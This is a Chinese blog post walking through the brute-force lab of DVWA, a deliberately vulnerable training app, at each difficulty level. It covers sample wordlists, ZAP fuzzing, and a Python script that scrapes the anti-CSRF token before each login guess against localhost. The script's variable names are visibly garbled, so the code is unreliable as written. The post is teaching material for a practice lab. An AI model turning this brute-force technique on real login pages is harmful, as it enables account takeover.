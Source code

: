 ```yaml
---
permalink: 2019/04/21/dvwa-brute-force
tags:
  - 爆破
layout: post
date: '2019-04-21 08:00:00'
categories:
  - web安全
  - DVWA
home_cover: ''
title: DVWA暴力破解(Brute Force)
---
```


暴力破解通常是用手工或者工具的方法对一个网站的登陆页面不断尝试各种用户名和密码的组合，直到能试出正确的一个组合。


DVWA的暴力破解难度等级分为四个 ：

- LOW：这一等级并没有对暴力破解做任何的防护，只需不断尝试即可破解。
- Medium: 这一等级是在LOW的基础上做了一点防护，当用户名和密码输错后会让用户在两秒后才能进行下一步的尝试。
- High:这一等级相比前两个等级有了较大的难度，在每次登陆时会带一个token字段发送到服务器端，服务器端会验证用户名，密码和token是否正确，正确才能登陆。token字段是随机生成的，当不了解使用何种算法生成token时是不能进行暴力破解的。
- Impossible: 这一等级DVWA在连续三次输错用户名和密码后会锁定15分钟，15分钟后才能尝试。这样的设定就无法进行暴力破解了。

## 字典


**暴力破解需要一本好的字典，字典越有针对性，破解过程越快。**
这里我们只是为了演示，就随便做了一个用户名的字典，一个密码的字典，字典内容如下：


用户名字典：


```text
admin
user
admin123
root
root123
administrator

```


密码字典：


```text
123456
root
admin123
password
qwerty
abcd1234

```


## LOW等级暴力破解


low等级的暴力破解比较简单，可以使用手工的方法在登陆页面不断进行尝试，但是这种方法用时会很长，这里我用用到了一款工具ZAP。


> OWASP Zed攻击代理（ZAP）是世界上最受欢迎的免费安全审计工具之一，由数百名国际志愿者积极维护。它可以帮助你在开发和测试应用程序时自动查找Web应用程序中的安全漏洞。  
> 也可以说ZAP是一个中间人代理。它能够获取你对Web应用程序发出的所有请求以及你从中收到的所有响应。


ZAP的安装过程省略，提供一个ZAP的下载地址：[https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)


### 设置浏览器代理


将其设置为ZAP所监听的端口，我设置的ZAP的端口为6666（默认端口为8080）。
所以需要设置浏览器的代理为：127.0.0.1:6666


浏览器端的设置代理的工具有很多，我用的是火狐浏览器，所用代理工具为“simpleProxy”。


![20190421213421.png](../post_images/4308e6d2ffc18e303fbbe761b540899e.png)


设置好代理后，浏览器端的所有请求和响应都会被ZAP所捕捉到。


### 捕捉并分析请求


在DVWA上随便输入一个用户名和密码，点击登陆，然后在ZAP上查看捕捉到的数据包。


![20190421215720.png](../post_images/6cbcaa25c4f48d2cee20b19538fd365b.png)


分析捕获到的请求数据报头，发现报头中会携带用户名和密码发送到服务器端，然后服务器端判断是否正确。此时我们就可以在ZAP上不断修改用户名和密码发送到服务器端，然后根据响应结果判断用户名密码是否正确。
ZAP提供的Fuzzer功能可以按照我们提供的字典修改请求头中的参数重复发送到服务器端。


![20190421220715.png](../post_images/f57e8430223ab17e93bb32aac4069bc9.png)


参数设置好后就可以开始爆破了。


![20190421221327.png](../post_images/1e32a0fe66b44851abd9dade27d010bf.png)


### 分析服务器返回的数据


![20190421222034.png](../post_images/ed45849d37e276107a745b714dc04883.png)


分析数据包发现有一个数据返回的Body大小和其它的都不一样，于是怀疑这条数据是登陆成功后返回的，其它的都是登陆失败后返回的。毕竟正确的用户名和密码只有一个。
于是将此用户名和密码输入到DVWA上发现登陆成功。


![20190421223450.png](../post_images/204ca5a6f6d0e6ce3e22db3e81b41d34.png)


## Medium等级暴力破解


Medium等级的暴力破解和LOW等级的暴力破解方法相同，只不过破解时间会变慢。在DVWA上查看源代码发现，每当输入错误的密码后，就会等待0-3秒才能进行下一次登陆。


```php
if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "<img src=\"{$avatar}\" />";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    } ;

```


此种方法只会延长暴力破解的时间，并不能阻止暴力破解。


## Hight等级暴力破解


和LOW等级一样，我们抓取Hight等级的请求数据包进行观察。


![20190422000439.png](../post_images/2bf368e11fc0e384a7dcb144a040caa7.png)


发现这个请求头比LOW等级的多了一个user_token参数，而且每次请求的user_token参数都是不同的。


_我们必须找出这个usertoken的值是从哪里来的，规律是什么才能进行下一步的暴力破解。
通过观察，我们发现在前端的HTML代码中，登陆框的form表单中有一个隐藏的input。_


![20190422001159.png](../post_images/d7326aa3832bd73f9a76d90622fe4f77.png)


发现每次请求都会带上其中的value值进行发送，不断刷新网页，又发现这个value值是不断变化的。在不知道源码的情况下是无法推算出此value值的计算方法的。


这里我写一段python代码来进行破解，思路大概是每次登陆前先获取HTNL代码中的value值然后放入header头中去请求服务器，直到成功为止。也可以使用burpsuit进行破解，过程请参考：
[https://blog.csdn.net/liweibin812/article/details/86287645](https://blog.csdn.net/liweibin812/article/details/86287645)


代码如下：


```python
_import requests
from bs4 import BeautifulSoup
import sys

#DVWA High等级暴力破解

#获取usertoken值
header={
    'Host': '127.0.0.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,__/_;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://127.0.0.1/dvwa/vulnerabilities/brute/',
    'Connection': 'keep-alive',
    'Cookie': 'security=high; PHPSESSID=mtsel2kcb1a4uecf6b7e87aa23',
}

def get_user_token():
    # 获取DVWA登陆页面
    r = requests.get('http://127.0.0.1/dvwa/vulnerabilities/brute/',headers=header)
    rsp = r.text

    # 获取登陆表单中的value值
    soup = BeautifulSoup(rsp,'lxml')
    input_name = soup.find(attrs={'name':'user__token'})
    value = inputname['value']
    return  value


#读取用户名和密码字典
f1 = open('username.txt','r')
userlist = f1.readlines()
for i in range(0,len(userlist)):
    user__list[i] = user__list[i].rstrip('\n')
f1.close()

f2 = open('password.txt','r')
passlist = f2.readlines()
for i in range(0,len(passlist)):
    pass__list[i] = pass__list[i].rstrip('\n')
f2.close()

# value值即get请求头中的usertoken
# 开始组合请求头并发送到服务器
for username in userlist:
    for password in passlist:
        payload = {'username':username,'password':password,'Login':'Login','user__token':get__usertoken()}
        r = requests.get('http://127.0.0.1/dvwa/vulnerabilities/brute/',headers=header,params=payload)
        rsp = r.text
        #判断是否登陆成功
        try:
            soup = BeautifulSoup(rsp,'lxml')
            errortext= soup.find(soup.pre.br.string)
            error__text = str(error__text)
            if 'incorrect' in errortext:
                print(username,password+'  '+'错误')
        except AttributeError:
            print(username,password+'  '+'正确')
            sys.exit() #找到正确密码就退出程序，不在往下执行_

```


